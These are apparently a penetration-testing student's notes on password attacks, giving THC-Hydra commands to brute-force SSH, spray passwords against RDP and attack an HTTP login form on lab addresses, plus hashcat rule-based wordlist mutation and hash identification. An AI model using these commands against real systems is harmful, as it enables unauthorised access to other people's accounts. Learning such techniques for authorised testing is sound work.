 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
USEFUL LINK : https://hashcat.net/wiki/doku.php?id=rule_based_attack
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

# Working with Hashes

```shell
# identifying hashes
hash-identifier

Enter Hash : 

# if it cannnot identify
hashcat hash.txt

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+=================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
   #<SNIP>
```


